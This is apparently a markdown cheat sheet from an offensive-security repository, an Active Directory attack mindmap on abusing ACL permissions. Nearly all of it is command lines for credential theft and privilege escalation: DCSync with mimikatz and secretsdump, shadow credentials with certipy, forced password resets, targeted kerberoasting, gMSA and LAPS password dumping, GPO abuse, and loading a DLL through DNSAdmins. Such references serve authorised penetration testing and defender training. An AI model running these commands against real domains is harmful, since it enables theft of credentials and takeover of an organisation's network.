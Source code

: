 # ACLs/ACEs permissions

## Dcsync >>> Domain Admin || Lateral move || Crack hash
- Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts
- `mimikatz lsadump::dcsync /domain:<target_domain> /user:<target_domain>\administrator`
- `secretsdump.py '<domain>'/'<user>':'<password>'@'<domain_controller>'`

## can change msDS-KeyCredentialLInk (Generic Write) + ADCS >>> PassTheCertificate
- Shadow Credentials
  - `certipy shadow auto '-u <user>@<domain>' -p <password> -account '<target_account>'`
  - `pywhisker.py -d "FQDN_DOMAIN" -u "user1" -p "CERTIFICATE_PASSWORD" --target "TARGET_SAMNAME" --action "list"`

## On Group
- GenericAll/GenericWrite/Self/Add Extended Rights
  - Add member to the group
- Write Owner
  - Grant Ownership
- WriteDACL + WriteOwner
  - Grant rights
    - Give yourself generic all

## On Computer
- GenericAll / GenericWrite
  - msDs-AllowedToActOnBehalf >>> RBCD
  - add Key Credentials >>> shadow credentials

## On User
- GenericAll / GenericWrite
  - Change password
    - `net user <user> <password> /domain` >>> User with clear text pass
  - add SPN (target kerberoasting)
    - `targetedKerberoast.py -d <domain> -u <user> -p <pass>` >>> Hash found (TGS)
  - add key credentials >>> shadow credentials
  - login script >>> Access
- ForceChangePassword
  - `net user <user> <password> /domain` >>> User with clear text pass

## On OU
- Write Dacl
  - ACE Inheritance
    - Grant rights
- GenericAll / GenericWrite / Manage Group Policy Links
  - `OUned.py --config config.ini`

## ReadGMSAPassword
- `gMSADumper.py -u '<user>' -p '<password>' -d '<domain>'`
- `nxc ldap <ip> -u <user> -p <pass> --gmsa`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldaps://<dc_ip> gmsa`

## Get laps passwords
- who can read LAPS
  - `MATCH p=(g:Base)-[:ReadLAPSPassword]->(c:Computer) RETURN p`
- Read LAPS >>> Admin
  - `Get-LapsADPassword -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize`
  - `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> laps`
  - `foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}`
  - `nxc ldap <dc_ip> -d <domain> -u <user> -p <password> --module laps`
  - `msf> use post/windows/gather/credentials/enum_laps`

## GPO
- `MATCH (gr:Group), (gp:GPO), p=((gr)-[:GenericWrite]->(gp)) RETURN p`
- SID of principals that can create new GPOs in the domain
  - `Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=blah,DC=com" -ResolveGUIDs  | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl`
- Return the principals that can write to the GP-Link attribute on OUs
  - `Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl`
- Generic Write on  GPO
  - Abuse GPO >>> ACCESS

## DNS Admin
- DNSadmins abuse (CVE-2021-40469) @CVE@ >>> Admin
  - `dnscmd.exe /config /serverlevelplugindll <\\path\to\dll> # need a dnsadmin user`
  - `sc \\DNSServer stop dns sc \\DNSServer start dns`

